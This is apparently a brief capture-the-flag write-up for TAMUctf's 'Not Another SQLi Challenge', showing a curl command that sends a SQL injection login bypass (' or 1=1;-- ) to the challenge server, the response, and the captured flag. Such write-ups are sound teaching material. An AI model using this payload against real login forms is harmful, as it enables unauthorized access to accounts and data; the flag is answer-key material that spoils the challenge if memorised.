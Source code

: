 # Not Another SQLi Challenge
Web

## Challenge 

http://web1.tamuctf.com

Difficulty: easy

## Solution

Simple SQL injection

	$ curl --data "username=' or 1=1;-- &password=" http://web1.tamuctf.com/web/login.php
	<html>gigem{f4rm3r5_f4rm3r5_w3'r3_4ll_r16h7}!</html>~ $ 


## Flag

	gigem{f4rm3r5_f4rm3r5_w3'r3_4ll_r16h7}